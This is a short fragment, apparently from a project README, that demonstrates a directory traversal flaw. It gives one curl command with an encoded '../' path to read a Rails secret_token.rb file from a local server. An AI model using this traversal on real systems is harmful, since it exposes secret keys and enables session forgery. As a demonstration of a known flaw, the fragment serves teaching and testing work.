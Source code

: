 # Exploit

Simple directory traversal vulnerability:

```shell
$ curl http://localhost:3000/uploads/%2E%2E%2Fconfig%2Finitializers%2Fsecret_token.rb
```


